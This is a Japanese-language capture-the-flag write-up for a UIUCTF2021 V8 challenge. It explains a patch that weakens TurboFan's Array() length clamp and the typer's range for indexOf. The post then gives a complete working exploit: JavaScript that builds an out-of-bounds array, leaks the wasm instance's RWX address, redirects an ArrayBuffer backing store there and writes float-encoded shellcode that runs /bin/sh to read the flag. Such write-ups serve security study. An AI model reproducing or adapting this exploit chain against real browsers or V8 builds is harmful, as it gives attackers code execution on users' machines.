 ```yaml
---
layout: page
title: "UIUCTF2021 should've had a v8"
date: 2021-08-02 00:00:00 -0000
---
```


## まえおき
最近はv8とchrome問に明け暮れています。この週末にはv8の問題でしかもパッチは実質2行、さすがにそろそろ解いておきたいと思い、隙間時間で取り組みました。

結果としては12時間くらいオーバーして解けたので、理解をまとめて書き残したいと思います。

## パッチ

パッチ自体は色々とありますが、READMEによると結局変更は2か所だそうです。親切で助かります。

```diff
diff --git a/src/compiler/js-create-lowering.cc b/src/compiler/js-create-lowering.cc
index 899922a27f..aea23fe7ea 100644
--- a/src/compiler/js-create-lowering.cc
+++ b/src/compiler/js-create-lowering.cc         
@@ -681,7 +681,7 @@ Reduction JSCreateLowering::ReduceJSCreateArray(Node* node) {
       int capacity = static_cast<int>(length_type.Max());                                                                                                 
       // Replace length with a constant in order to protect against a potential
       // typer bug leading to length > capacity.
-      length = jsgraph()->Constant(capacity);
+      //length = jsgraph()->Constant(capacity);
       return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                             allocation, slack_tracking_prediction);
     }
diff --git a/src/compiler/typer.cc b/src/compiler/typer.cc
index 0f18222236..0f76ad896e 100644
--- a/src/compiler/typer.cc
+++ b/src/compiler/typer.cc
@@ -2073,7 +2073,7 @@ Type Typer::Visitor::TypeStringFromCodePointAt(Node* node) {
 }

 Type Typer::Visitor::TypeStringIndexOf(Node* node) {
-  return Type::Range(-1.0, String::kMaxLength, zone());
+  return Type::Range(0, String::kMaxLength, zone());
 }

 Type Typer::Visitor::TypeStringLength(Node* node) {
```

前半のReduceJSCArrayの変更は、CVE2020-6383の[一連の流れ](https://bugs.chromium.org/p/chromium/issues/detail?id=1051017)のうちの[この修正](https://chromium.googlesource.com/v8/v8.git/+/6516b1ccbe6f549d2aa2fe24510f73eb3a33b41a%5E%21/#F0)において、直接バグに関わらないものの、念のため追加された修正です。この修正ではturbofanによって`Array()`が最適化されるときに、引数が固定長だった場合には決まったサイズで確保してチェックなしで渡していたところを、capacityにそろえています。これによって、万一lengthが大きくなった場合でも、capacityで抑えられるためにOOBな配列を渡してしまうことを防ぎます。

そして今回はこの修正が取り除かれています。つまり`Array()`を使ってOOBな配列を作ってくださいねという指示と受け取れます。

後半の`TypeStringIndexOf`への修正は、これによってturbofanの推定は、「String型に対するindexOfは-1が返ってこない」と解釈してしまうようになります。実際には文字列にない文字を指定することで-1が返りますので、ずれが生じます。

この問題は、このずれと、`Array()`のチェック無効を利用してOOBな配列を生成し、これを利用してコード実行を達成するという内容になっています。

## PoCの作成
コード実行を達成するためには、まずバグを利用してOOB配列を作る必要があります。必要な項目は以下の通りです。
- turbofanの推定では固定値が`Array()`に入るようにすること
- `str.indexOf()`の返り値-1になるときには巨大な値になること

最終的に以下のような関数で、OOB配列を作成することができました。

```js
function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);    /*1*/
        bad = -bad;                 /*2*/
        bad *= 0x100;               /*3*/
        bad += 10;                  /*4*/
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}
```

それぞれ実際の値：左と、推定値：右は以下のようになるはずです。

- 1のとき： -1, -0
- 2のとき： 1, 0
- 3のとき： 0x100, 0
- 4のとき： 0x10a, 10

turbofanでは`Array()`の引数が10になるので、これが入るような固定のサイズが用意されます。しかし実際にはもっと大きな値が入力され、OOB配列が手に入ります。

## 残ったもの
あとはやるだけです。（時間内にできませんでしたが。）
手順は以下の通りです。

1. double配列と、オブジェクト配列を利用してwasm_instance+0x60にあるrwxのアドレスをリーク
2. ArrayBufferのポインタをrwxに書き換える
3. rwxにシェルコードを載せる

wasm_instanceはポインタ圧縮範囲内、rwxは範囲外ですので、それぞれdouble arrayとArrayBufferを準備して、ポインタを書き換えます。
最終的なコードです。

```js
var buf = new ArrayBuffer(8);
var f64 = new Float64Array(buf);
var i64 = new BigInt64Array(buf);

function f2i(v) {
        f64[0] = v;
        return i64[0];
}
function i2f(v) {
        i64[0] = v;
        return f64[0];
}
function hex(v) { return "0x"+v.toString(16); }

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shellcode = wasm_instance.exports.main;

function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);
        bad = -bad;
        bad *= 0x100;
        bad += 10;
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}

var oob = optme()[0];
for (let i = 0; i < 100000; i++) {
        oob = optme();
}

// get oob array
oob = optme()[0];

// prepare helpers
var reader = [1.1, 2.2, 3.3];
var objarray = [reader, wasm_instance];
var writer = new ArrayBuffer(8);
var f64_writer = new Float64Array(writer);

// addr of wasm_instance
leak = f2i(oob[35]) >> 32n;

// elem of "reader" points to wasm_instance+0x60 (have rwx addr)
oob[23] =  i2f((6n << 32n)+leak+0x60n);

// leak rwx address 
var rwx = f2i(reader[0]);
print("rwx: ", hex(rwx));

// change length of "writer" to 0x20 
oob[47] = i2f(0x20n);

// change backing store ptr of "writer" to rwx
oob[48] = i2f(rwx);

// cmd: /bin/sh -c "ls -la /"
var sc = [-6.828527034422786e-229, 3.1048139649706616e-307, 1.9806662284999126e+161, 5.9604e-320, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 5.432309224871097e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318];
// cmd: /bin/sh -c "cat /flag.txt"
var sc = [-6.828527034422786e-229, 3.1048139649706616e-307, 1.653261323414007e+184, 1.8219370047921238e-306, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 5.432309224871097e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318];

// set shellcode to rwx through float view
f64_writer.set(sc, 0);

shellcode();
```

リモートでもローカルでも動きましたが、現在リモートはお休み中のようです。無念。フラグは見られたので良しとします。初めてカンニングせずに解き切れました。

少し反省を書いておきます。

普段は`--shell`を使って、あとからアタッチしてアドレスを特定しながら作業しますが、今回は不覚にもデバッグ方法が思いつかなかったため、かなりしらみつぶしに作っていって、すごくつらかったです。そしてこれは、普通にgdbでv8を立ち上げればよかったのです。

思いついてから30分程度で解けました。ちゃんと落ち着いて考えましょう。

chrome問でも似たようなデバッガどうつなげばいいの問題があるので、だれか教えてください。
